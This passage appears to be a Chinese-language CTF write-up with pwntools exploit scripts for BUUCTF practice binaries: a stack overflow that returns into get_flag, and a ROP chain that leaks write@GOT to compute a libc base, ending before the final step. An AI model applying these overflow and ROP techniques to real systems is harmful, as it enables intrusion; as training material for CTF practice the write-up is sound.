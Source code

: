 如果单纯执行完get_flag不设置一个正确的返回地址，这个函数里的输出显示不出来

（详细原因目前也不是很清楚）



**Exp**

针对上述问题，选择exit函数作为get_flag的返回地址（不能放一个空着的p32(0)进去）

```python
from pwn import *
from LibcSearcher import *

#p = remote("node4.buuoj.cn",27230)
p = process('./get_started_3dsctf_2016')

elf = ELF('./get_started_3dsctf_2016')

get_flag = 0x80489A0
param1 = 0x308CD64F
param2 = 0x195719D1

sleep(0.1)
payload = b'a'*56 + p32(get_flag) +p32(0x0804E6A0) + p32(param1) + p32(param2)

p.sendline(payload)

p.interactive()

```

### 题目4

<https://buuoj.cn/challenges#[HarekazeCTF2019]baby_rop>

从给定libc获取获取基址

由于给了libc版本，此exp展示使用指定的libc文件获取偏移的方法

不用给的libc文件的见下一道题，harekaze2019的babyrop2

**Exp**

```python
from pwn import *

# p = process('./pwn')
p = remote('node4.buuoj.cn',28818)
e = ELF('./pwn')

#payload 1
payload1 = '\x00' + '\xff' * 7
p.sendline(payload1)
p.recvuntil("Correct\n")

#payload 2
payload2 = (231 + 4) * b'a' + p32(e.plt['write']) + p32(0x08048825) +p32(1) + p32(e.got['write']) + p32(4)

p.sendline(payload2)

# leak addr
write_got = u32(p.recv(4))
print(hex(write_got))

#payload 3
libc = ELF("./libc-2.23.so")
libc.address =  write_got - libc.sym['write']
```